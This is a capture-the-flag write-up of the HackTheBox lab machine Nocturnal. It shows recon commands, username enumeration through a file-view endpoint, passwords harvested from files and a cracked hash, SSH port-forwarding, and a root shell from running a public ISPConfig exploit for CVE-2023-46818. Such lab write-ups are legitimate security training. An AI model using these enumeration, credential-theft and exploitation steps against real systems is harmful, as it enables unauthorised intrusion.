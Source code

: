 HTB – Nocturnal (10.10.11.64) — Classic PHP Stack ➜ File Upload ➜ Credential Harvest ➜ SSH ➜ ISPConfig RCE ➜ Root via CVE-2023-46818
🚀 Initial Recon

nmap -sC -sV -Pn -p- 10.10.11.64

🔓 Open Ports

22/tcp   OpenSSH 8.2p1 Ubuntu
80/tcp   nginx 1.18.0 (Ubuntu)

🧠 No signs of containerization (TTL: 63) — likely bare-metal or VM.

🎯 Virtual Host identified: nocturnal.htb

echo "10.10.11.64 nocturnal.htb" | sudo tee -a /etc/hosts

🌐 Web Enumeration (Port 80)

    Title redirects to: http://nocturnal.htb/

    Tech stack: PHP, nginx 1.18.0, Ubuntu

    Contact info found in source: support@nocturnal.htb

    Explored endpoints:

    /login.php
    /register.php
    /backups/
    /uploads/
    /admin.php (403 unless admin)
    /view.php?username=admin2&file=upload1.pdf

🧪 Registration & Upload Bypass

Registered with:

Username: admin2
Password: admin2

➡️ Upload functionality available after login
🚫 Extension whitelist: pdf, doc, docx, xls, xlsx, odt
🧠 Only extension is validated ➜ potential bypass opportunity
🕵️ User Enumeration & Loot

Used /view.php to brute usernames:

/view.php?username=amanda&file=.pdf

🧩 Found valid file:

<a href="view.php?username=amanda&file=privacy.odt">privacy.odt</a>

Extracted password from .odt:

amanda : a[REDACTED]J

🔑 Admin Panel Access ➜ DB Dump

Logged in as amanda ➜ gained access to /admin.php
Dumped full site backup, including SQLite DB

🧬 Extracted user hash:

tobias : 55c8[REDACTED]061d

Cracked via CrackStation:

Password: slowmotionapocalypse

🔐 SSH Access (tobias)

ssh tobias@nocturnal.htb

✅ Login successful ➜ user shell

Observed a weird SUID binary (sendmail), but non-exploitable.

Found localhost web service on port 8080
Port-forwarded via SSH:

ssh tobias@nocturnal.htb -L 8081:127.0.0.1:8080

🕸️ Internal Web App – ISPConfig

At http://127.0.0.1:8081/ ➜ ISPConfig panel exposed.

Tried default login:

Username: admin
Password: slowmotionapocalypse

✅ Login success

Discovered CVE-2023-46818 – authenticated RCE in ISPConfig
📖 Exploit Code
🧨 Exploitation ➜ Root

Ran exploit:

python3 exploit.py http://127.0.0.1:8081/ admin sl[REDACTED]se

🏁 Got root shell.
